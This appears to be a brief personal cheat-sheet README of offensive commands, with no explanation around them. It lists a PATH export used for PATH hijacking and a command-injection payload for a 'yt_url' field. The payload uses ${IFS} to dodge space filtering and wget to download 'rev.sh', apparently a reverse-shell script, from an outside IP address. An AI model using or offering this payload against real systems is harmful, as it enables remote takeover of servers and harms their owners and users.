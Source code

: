 # LifeLongCommands
All command needed to be noted

# Binary Execution Path changing 
export PATH=/home/somedirectory:$PATH

# Command injection
yt_url=;wget${IFS}http://10.4.39.84:8000/rev.sh;
